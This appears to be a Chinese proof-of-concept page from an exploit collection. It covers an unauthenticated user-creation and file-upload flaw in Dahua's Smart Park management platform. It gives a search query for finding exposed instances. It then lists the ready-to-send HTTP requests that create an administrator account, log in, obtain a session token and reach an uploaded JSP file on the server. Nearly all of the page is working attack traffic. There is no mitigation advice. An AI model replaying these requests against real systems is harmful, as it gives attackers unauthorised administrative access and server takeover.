 # 大华 智慧园区综合管理平台 user_save.action 任意文件上传漏洞

## 漏洞描述

大华 智慧园区综合管理平台存在未授权访问漏洞，攻击者通过构造特殊的请求包可以创建新用户，再利用文件上传漏洞获取服务器权限

## 漏洞影响

大华 智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230704114553099](images/image-20230704114553099.png)

验证POC

```
POST /admin/user_save.action HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 914
Content-Type: multipart/form-data; boundary=----fxwrpqcy
Cookie: JSESSIONID=65A8F19555DC1EFB09B5A8B4F0F6921C
User-Agent: Go-http-client/1.1

------fxwrpqcy
Content-Disposition: form-data; name="userBean.userType"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.ownerCode"

001
------fxwrpqcy
Content-Disposition: form-data; name="userBean.isReuse"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.macStat"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.roleIds"

1
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="displayedOrgName"

luqaahkf
------fxwrpqcy
Content-Disposition: form-data; name="userBean.loginPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="checkPass"

lhndpuxl
------fxwrpqcy
Content-Disposition: form-data; name="userBean.groupId"

0
------fxwrpqcy
Content-Disposition: form-data; name="userBean.userName"

luqaahkf
------fxwrpqcy--
```

![image-20230704114609838](D:\TMP_FILE\awesome-poc\iot\images\image-20230704114609838.png)

```
POST /WPMS/getPublicKey HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 25
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf"}
```

![image-20230704114626015](images/image-20230704114626015.png)

```
POST /WPMS/login HTTP/1.1
Host: 
Accept-Encoding: gzip
Content-Length: 271
Content-Type: application/json
User-Agent: Go-http-client/1.1

{"loginName":"luqaahkf","loginPass":"IxID6I8gKNSkCgu5UMwfRAhZpyvKKzu9q+dUngiieHiCTA52x3/uNB17NmAOletbzTOT46fLE5AOOMqMaqdDLA5rcsB3/Gql1qYwbNWLB6orKWpWEr9asUeNi/3ccIb95NUAXS1yn0l3ks94jbGT/CYbNq+JiBAeYlwcfdrqYkM=","timestamp":"16853622671401904168273612873678126378126387"}
```

![image-20230704114644296](images/image-20230704114644296.png)

```
/admin/login_login.action?subSystemToken=87a629bc14298c1533d8b52dd63e87f7
```

![image-20230704114655894](images/image-20230704114655894.png)

```
/upload/axqvssmz.jsp
```

